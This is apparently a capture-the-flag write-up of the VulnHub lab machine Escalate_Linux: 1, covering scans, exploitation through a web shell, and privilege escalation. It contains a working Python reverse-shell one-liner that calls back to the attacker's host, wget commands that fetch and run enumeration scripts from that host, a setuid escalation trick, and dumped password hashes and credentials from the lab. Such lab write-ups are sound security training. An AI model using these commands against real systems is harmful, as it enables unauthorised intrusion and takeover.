


# [[VulnHub] Escalate_Linux: 1](https://www.vulnhub.com/entry/escalate_linux-1,323/)

**Date**: 17/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [exploit_python_reverseshell](https://github.com/7h3rAm/writeups/search?q=exploit_python_reverseshell&unscoped_q=exploit_python_reverseshell), [privesc_mysql_creds](https://github.com/7h3rAm/writeups/search?q=privesc_mysql_creds&unscoped_q=privesc_mysql_creds), [privesc_setuid](https://github.com/7h3rAm/writeups/search?q=privesc_setuid&unscoped_q=privesc_setuid)  

## Overview
This is a writeup for VulnHub VM [Escalate_Linux: 1](https://www.vulnhub.com/entry/escalate_linux-1,323/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):


### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:




### TTPs
1\. `80/tcp/http/Apache httpd 2.4.29 ((Ubuntu))`: [exploit_python_reverseshell](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [privesc_mysql_creds](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [privesc_setuid](https://github.com/7h3rAm/writeups#privesc_setuid)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Tue Sep 17 11:47:37 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.escalatelinux/results/192.168.92.173/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.escalatelinux/results/192.168.92.173/scans/xml/_quick_tcp_nmap.xml 192.168.92.173
Nmap scan report for 192.168.92.173
Host is up, received arp-response (0.00026s latency).
Scanned at 2019-09-17 11:47:38 PDT for 20s
Not shown: 995 closed ports
Reason: 995 resets
PORT     STATE SERVICE     REASON         VERSION
80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
111/tcp  open  rpcbind     syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      43318/udp  mountd
|   100005  1,2,3      43937/tcp  mountd
|   100021  1,3,4      39393/tcp  nlockmgr
|   100021  1,3,4      47990/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     syn-ack ttl 64 3 (RPC #100227)
MAC Address: 00:0C:29:A6:A7:B9 (VMware)
Service Info: Host: LINUX

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
| nbstat: NetBIOS name: LINUX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   LINUX<00>            Flags: <unique><active>
|   LINUX<03>            Flags: <unique><active>
|   LINUX<20>            Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 55304/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 61557/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38128/udp): CLEAN (Timeout)
|   Check 4 (port 2678/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: osboxes
|   NetBIOS computer name: LINUX\x00
|   Domain name: \x00
|   FQDN: osboxes
|_  System time: 2019-09-17T14:47:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-17 11:47:54
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 17 11:47:58 2019 -- 1 IP address (1 host up) scanned in 21.30 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

  

3\. Found a `shell.php` file on `80/tcp` using `dirb`:  
``` {.python .numberLines}
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: /root/toolbox/writeups/vulnhub.escalatelinux/results/192.168.92.173/scans/tcp_80_http_dirb.txt
START_TIME: Tue Sep 17 11:47:59 2019
URL_BASE: http://192.168.92.173:80/
WORDLIST_FILES: /usr/share/seclists/Discovery/Web-Content/common.txt
OPTION: Printing LOCATION header
OPTION: Not Recursive
OPTION: Silent Mode
EXTENSIONS_LIST: (,.txt,.html,.php,.asp,.aspx) | ()(.txt)(.html)(.php)(.asp)(.aspx) [NUM = 6]

-----------------

GENERATED WORDS: 4593

---- Scanning URL: http://192.168.92.173:80/ ----
+ http://192.168.92.173:80/index.html (CODE:200|SIZE:10918)
+ http://192.168.92.173:80/index.html (CODE:200|SIZE:10918)
+ http://192.168.92.173:80/server-status (CODE:403|SIZE:302)
+ http://192.168.92.173:80/shell.php (CODE:200|SIZE:29)

-----------------
END_TIME: Tue Sep 17 11:49:15 2019
DOWNLOADED: 27558 - FOUND: 4

```


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp     |  http         |  Apache httpd 2.4.29 ((Ubuntu))
111/tcp    |  rpcbind      |  2-4 (RPC #100000)
137/udp    |  netbios-ns   |  Samba nmbd netbios-ns (workgroup: WORKGROUP)
139/tcp    |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp    |  netbios-ssn  |  Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
2049/tcp   |  nfs_acl      |  3 (RPC #100227)
39393/tcp  |  nlockmgr     |  1-4 (RPC #100021)
43937/tcp  |  mountd       |  1-3 (RPC #100005)
55567/tcp  |  mountd       |  1-3 (RPC #100005)
59061/tcp  |  mountd       |  1-3 (RPC #100005)
```
#### Files
``` {.python .numberLines}
http://192.168.92.173:80/shell.php
```
#### Users
``` {.python .numberLines}
ssh: root, mysql, user1, user2, user3, user4, user5, user6, user7, user8
```

\newpage
## Phase #2: Exploitation
1\. We set up a `netcat` listener and invoke a Python reverse shell:  
``` {.python .numberLines}
nc -nlvp 9999
http://192.168.92.173/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.92.163",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
user6@osboxes> id
uid=1005(user6) gid=1005(user6) groups=1005(user6)
user6@osboxes>  
user6@osboxes> uname
Linux osboxes 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
user6@osboxes>  
user6@osboxes> ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
       inet 192.168.92.173  netmask 255.255.255.0  broadcast 192.168.92.255
       inet6 fe80::2e48:398c:348e:b9c9  prefixlen 64  scopeid 0x20<link>
       ether 00:0c:29:a6:a7:b9  txqueuelen 1000  (Ethernet)
       RX packets 266778  bytes 38129187 (38.1 MB)
       RX errors 0  dropped 0  overruns 0  frame 0
       TX packets 263355  bytes 76831868 (76.8 MB)
       TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
user6@osboxes>  
user6@osboxes> users
root
mysql
user1
user2
user3
user4
user5
user6
user7
user8
```

\newpage
## Phase #3: Privilege Escalation
1\. We start with downloading the privesc enumerations scripts:  
``` {.python .numberLines}
wget http://192.168.92.163:8000/lse.sh ; chmod +x ./lse.sh ; ./lse.sh | tee lse.txt
wget http://192.168.92.163:8000/linenum.sh ; chmod +x ./linenum.sh ; ./linenum.sh | tee linenum.txt
wget http://192.168.92.163:8000/linuxprivchecker.py ; chmod +x ./linuxprivchecker.py ; python ./linuxprivchecker.py | tee linuxprivchecker.txt

```

2\. We also explore the `home` directories of users and find some inetresting files:  
``` {.python .numberLines}
/home/user3/shell → setuid
/home/user4/abc.txt → owned by root
/home/user5/script → setuid

```

  

  

  

3\. From `linenum.sh` scan, we find that the MySQL service allows login with the default credentials `root/root`. We use this to connect and get credentials for the `mysql` user:  

  

  

4\. We investigate the `setuid` files now. Since the first `setuid` file `/home/user3/shell` is owned by `user3`, we checkout their `.bash_history` to see possible usage commands:  
``` {.python .numberLines}
cat /home/user3/.bash_history

```

  

  

5\. We find that the `/home/user3/shell` file requries a `.script.sh` file and needs it to have executable permissions. We create this file and test out the `shell` file which gives us an elevated shell:  
``` {.python .numberLines}
echo -en "bash -p" >>./.script.sh
chmod +x ./.script.sh
/home/user3/shell

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM........................
user1:$6$9iyn/lCu$UxlOZYhhFSAwJ8DPjlrjrl2Wv.Pz9DahMTfwpwlUC5ybyBGpuHToNIIjTqMLGSh0R2Ch4Ij5gkmP0eEH2........................
user2:$6$7gVE7KgT$ud1VN8OwYCbFveieo4CJQIoMcEgcfKqa24ivRs/MNAmmPeudsz/p3QeCMHj8ULlvSufZmp3TodaWlIFSZ........................
user3:$6$PaKeECW4$5yMn9UU4YByCj0LP4QWaGt/S1aG0Zs73EOJXh.Rl0ebjpmsBmuGUwTgBamqCCx7qZ0sWJOuzIqn.GM69a........................
user4:$6$0pxj6KPl$NA5S/2yN3TTJbPypEnsqYe1PrgbfccHntMggLdU2eM5/23dnosIpmD8sRJwI1PyDFgQXH52kYk.bzc6sA........................
user5:$6$wndyaxl9$cOEaymjMiRiljzzaSaFVXD7LFx2OwOxeonEdCW.GszLm77k0d5GpQZzJpcwvufmRndcYatr5ZQESdqbIs........................
user6:$6$Y9wYnrUW$ihpBL4g3GswEay/AqgrKzv1n8uKhWiBNlhdKm6DdX7WtDZcUbh/5w/tQELa3LtiyTFwsLsWXubsSCfzRc........................
mysql:$6$O2ymBAYF$NZDtY392guzYrveKnoISea6oQpv87OpEjEef5KkEUqvtOAjZ2i1UPbkrfmrHG/IonKdnYEec0S0ZBcQFZ........................
user7:$6$5RBuOGFi$eJrQ4/xf2z/3pG43UkkoE35Jb0BIl7AW/umj1Xa7eykmalVKiRKJ4w3vFEOEOtYinnkIRa.89dXtGQXdH........................
user8:$6$fdtulQ7i$G9THW4j6kUy4bXlf7C/0XQtntw123LRVRfIkJ6akDLPHIqB5PJLD4AEyz7wXsEhMc2XC4CqiTxATfb20x........................
```
### Credentials
``` {.python .numberLines}
ssh: root/123..
mysql: mysql/mysql@1....
```

## References
[+] <https://www.vulnhub.com/entry/escalate_linux-1,323/>  
